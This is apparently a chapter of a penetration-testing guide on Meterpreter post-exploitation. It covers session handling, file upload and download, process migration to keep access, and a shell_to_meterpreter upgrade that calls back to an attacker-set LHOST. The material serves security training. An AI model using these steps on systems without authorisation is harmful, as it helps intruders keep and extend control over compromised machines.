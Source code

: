 # Meterpreter

By now you probably has some kind of shell to the target. If it is not a meterpreter shell you should probably try to turn the current shell into a meterpreter shell, since it gives you a lot of tools available really easy.

So just create a meterpreter-shell from msfvenom or something like that. Maybe a php-shell. Or whatever you have access to. Then you just fire that script and get your meterpreter shell. Check out the chapter Exploiting/Msfvenom for more about creating payloads.

### Basics <a id="basics"></a>

List all commands

```text
help
```

Get help about a specific command

```text
help upload
```

#### Sessions <a id="sessions"></a>

So first some basics. You can put the shell into a background job with the command `background`. This might be useful if you have several shells going at the same time. Or if you want to move to a specific directory to upload or download some files.

List background sessions

```text
background -l
```

Connect back to a background session

```text
background -i 1
```

Upload and download files.

```text
upload
download
```

### Scripts <a id="scripts"></a>

#### Migrate <a id="migrate"></a>

A really common and useful script that is build into metasploit is the migrate script. If you get the shell through some kind of exploits that crashes a program the user might shut down that program and it will close your session. So you need to migrate your session to another process. You can do that with the `migrate` script.

First run this command to output all processes

```text
ps
```

Now you choose one and run

```text
run migrate -p 1327
```

Where the `-p` is the PID of the process.

### Post modules <a id="post-modules"></a>

There are tons of modules specifically created for post-exploitation. They can be found with

```text
use post/
```

#### Upgrade a normal shell to metepreter <a id="upgrade-a-normal-shell-to-metepreter"></a>

There is a point in doing stuff through metasploit. For example, if you find a exploit that does not have meterpreter available as a payload you can just start a normal shell and then upgrade it. To do that you do the following:

First you generate a shell through metasploit, either through a specici exploit or through a msfvenom-shell that you upload. Now that you have a normal shell it is time to upgrade it to a meterpreter shell.

First we have to leave the shell but without killing it. So we do

```text
Ctr-z
Background session 2? [y/N]  y
```

Now we have that shell running in the background, and you can see it with

```text
show sessions
#or
sessions -l
```

And you can connect to it again with

```text
sessions -i 1
```

Or whatever the number of the session is.

So now we have the shell running in the background. It is time to upgrade

```text
use post/multi/manage/shell_to_meterpreter
set LHOST 192.168.1.102
set session 1
exploit
```

Now metasploit will create a new session with meterpeter that will be available to you.

